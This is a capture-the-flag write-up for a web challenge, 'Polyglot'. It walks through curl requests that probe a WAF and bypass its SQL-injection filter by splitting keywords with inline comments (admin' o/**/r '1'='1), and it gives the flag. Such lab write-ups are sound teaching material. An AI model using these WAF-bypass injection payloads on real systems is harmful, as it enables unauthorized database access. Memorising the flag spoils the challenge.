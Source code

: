 ```yaml
---
layout: writeup

title: Polyglot
difficulty: hard
points: 400
categories: [web]
tags: []

flag: CBCV{0n3_p4Yl0AD_2_w0rLd5_4545}
---
```


### Polyglot

* Author: Prithvi

In this challenge, we are given a single endpoint behind a WAF:

```
http://20.244.12.130:8092/submit
```

The WAF blocks common SQL injection patterns (like `OR`, `AND`, `UNION`) and rejects malformed JSON. Our goal is to craft a payload that passes the WAF and retrieves the flag.

---

#### Step 1: Test basic input

We start by sending a normal JSON string:

```curl
curl -s -X POST http://20.244.12.130:8092/submit \
-H "Content-Type: application/json" \
-d '{"payload":"test"}'
```

Expected response:

```json
{ "status": "ok", "received_normalized": "test" }
```

- This confirms the endpoint accepts valid JSON and returns a normalized version of our payload.
- Malformed JSON triggers:

```json
{ "error": "invalid json" }
```

---

#### Step 2: Probe the WAF

Next, we try simple SQLi strings:

```curl
curl -s -X POST http://20.244.12.130:8092/submit \
-H "Content-Type: application/json" \
-d '{"payload":"admin' or '1'='1"}'
```

Output:

```json
{ "error": "blocked: sqli" }
```

- This indicates the WAF blocks literal `OR`.
- Other attempts like `AND`, `UNION`, or `--` are similarly blocked.

---

#### Step 3: Find a bypass technique

We observe that:

1. The WAF uses simple regex word-boundary checks (blocks literal keywords).
2. The endpoint accepts JSON input, meaning we can inject characters inside the string.

Idea: **use an inline SQL comment to split the keyword**:

```text
o/**/r
```

- `OR` is now broken across `o/**/r` → WAF regex does not match.
- The payload is still valid JSON and may normalize internally on the hidden server.

---

#### Step 4: Test polyglot payload

We construct the candidate payload:

```curl
curl -s -X POST http://20.244.12.130:8092/submit \
-H "Content-Type: application/json" \
-d '{"payload":"admin' o/**/r '1'='1"}'
```

- Variations with spacing inside the comment are also tested:

```text
admin' o/**/   r '1'='1
admin' o/**/r '1'='1
```

- All variations are valid **polyglot payloads**:

  - Pass WAF
  - Normalize internally to a hidden target string
  - Trigger flag return

---

#### Step 5: Analyze responses

- Payloads blocked by WAF return `{"error":"blocked: sqli"}`
- Malformed JSON returns `{"error":"invalid json"}`
- Correct polyglot returns:

```json
{ "flag": "CBCV{0n3_p4Yl0AD_2_w0rLd5_4545}" }
```

- Only **polyglot-style payloads** of this type work.
- Any naive attempt like `"admin' or '1'='1"` fails due to WAF.

---

#### Step 6: Summary

- **Challenge concept:** input interpreted in two contexts (JSON + SQL)
- **WAF protection:** blocks common SQL keywords
- **Solution:** craft a **polyglot payload** that:

  - Is valid JSON
  - Uses inline comments or other tricks to bypass regex
  - Normalizes to the hidden server’s expected string

```python
# Conceptual normalization inside hidden server
payload = "admin' o/**/r '1'='1"
normalized = payload.replace("/**/", "").strip().lower()
# normalized == "admin' or '1'='1"
```

---

### The flag found is:
## CBCV{0n3_p4Yl0AD_2_w0rLd5_4545}
